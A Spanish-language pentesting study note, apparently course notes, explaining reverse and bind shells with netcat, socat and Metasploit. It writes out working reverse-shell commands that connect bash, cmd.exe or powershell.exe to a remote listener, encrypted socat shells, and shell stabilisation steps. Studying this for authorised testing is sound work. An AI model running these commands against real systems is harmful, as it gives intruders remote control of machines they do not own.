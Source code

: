 # ¿QUÉ ES UNA SHELL?

Antes de meternos dentro de como mandar o recibir shells. Deberemos entender que es una shell. En terminos simples, las shell es cuando usamos la interzan con un CLI "Command Line environment"

El programas como bash o sh en linus tenemos ejemplos de shells en windows tenemos cmd o powershell.

Cuando tenemos target y quremos ejecutar código arbitrario

En terminos simples, nosotros forzamos el envio de un comando para darnos acceso por una (reverse shell), abrir otro puerto por cual nosotros nos conectamos.

# HERRAMIENTAS

## NETCAT

Netcal "Swiss Army Knife" para las redes. Se usa para todo tipo de redes, incluyendo durante una enumeración, pero los masi mportante en muchos casos, se usa para recibir shells reversas y conectar a puertos remotos para ganar acceso. Normalmente son inestables y se utilizan tecnicas para mejorarlas.

## SOCAT

Socat es como netcat pero con esteroides. Hace todo y mucho más. Son mucho mas estables. pero estos dos grandes fallos:

1- La sintasis es mucho más complicada.
2- Netcat esta instalado en todos los sistemas linus, cosa se Socat no.

## Metasploit -- multi/handler

El modulo de metasploit framework es como socat y netcat para recibir shells reversas. provee shells estables.

## Msfvenom

Como multi/handler, msfvenom es tecnicamente parte de metasploit, sin embargo podemos generar reverse shells y lo mismo.

/usr/share/webshells

# TIPOS DE SHELLS

En alto nivel tenemos dos tipos de shells "Reverse Shells" - "Bind Shells" 

- Reverse shells: Cuando es forzado a ejectuar codigo remoto. En nuestro propio ordenador podemos utilizar herramientas anteriormente mencionadas en la anterior sección y ejecutar un "listener". Las reverse shells son buenas para bypasear firewalls o reglas de la conexión de puertos del target, sin embargo, cuando recibes la shell a traves de internet, necesitas configurar tu propia red para aceptar dicha sehll.
  
- Bind Shells: Cuando se ejecuta código del target se usa para empezar un "listener" de una shell directa al target. Una vez subida a internet se conectan al puerto el codigo obtiene un codigo remoto.

```
sudo nc -lvnp 443
nc <Local-IP> <Port> -e /bin/bash
```

![image](https://github.com/user-attachments/assets/51c3a4e4-eafe-4287-b749-f1a76ada6528)

![image](https://github.com/user-attachments/assets/8de86404-33ed-4bc4-8e6a-02340d633534)

![image](https://github.com/user-attachments/assets/2d7afccb-0401-497b-8f6d-77df41ac1cb4)

# NETCAT

Mencionado previamente, netcat es una herramienta basicap ara los penetrations tester

## REVERSE SHELLS

```
nc -lvnp puerto
```

- -l : listener
- -v : verbose
- -n : resuelve host o use dns
- -p : Puerto específico

```
sudo nc -lvnp 443
```

## BIND SHELLS

```
nc taget puerto
```

# ESTABILIZACIÓN DE SHELL

Una vez nos conectemos por netcat estas shells suelen ser muy inestables. Si presionamos Ctrl + C la mataremos. Esto no es interactivo, y nos dara muchos erroes.

## TÉCNICA 1 - PYTHON

```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg
```

![image](https://github.com/user-attachments/assets/4f63d7c8-ad0d-4c29-97d6-f37505aa2cfa)

## TÉCNICA 2 - RLWRAP

Rlwrap es un programa con simples terminos, nos da acceso al historias, la tabla se autocompleta recibiendo una shell, sin embargo se usa para habilitar Ctrl + c dentro de la shell 

```
sudo apt install rlwrap
rlwrap nc -lvnp puerto
ctrl +x
sttry raw -echo; fg
```

## TÉCNICA 3 : SOCAT

La tercera es la más facil de estabilizar 

```
sudo python3 -m http.server 80
wget localip/socat -O /tmp/socat
stty -a
```

![image](https://github.com/user-attachments/assets/f8a09b70-9d61-4561-9402-1c13cacf9ce7)


# SOCAT

Socat es similar a netcar, pero fundamentalmente diferente en otros factores. La forma más fácil para entedner socar es la conexión entre dos puntos. Lo interesante es lo fácil y esencial que escuchar un puerto o 2.

## REVERSE SHELL

```
socat TCP -L:port
nc -lvnp port
socat TCP:LocalIP:LOCALport EXEC:powershell.exe,pipes
socat TCP:LocalIP:LocalPOrt EXEC:"bash -li"
```

## BIND SHELLS

```
socat TCP-L:Port EXEC:"bash -li"
```
# SOCAT SHELLS ENCRIPTADAS

Primero deberemos genear un certificado para usalo para encriptar

```
# Creamos certificado
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
# Dos ficheros en uno
cat shell.key shell.crt > shell.pem
# CUANDO LA REV SHELL ESTE EN ESCUCHA
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
# PARA VOLVERSE A CONECTAR
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
# TARGET
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
# ATACKER
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```





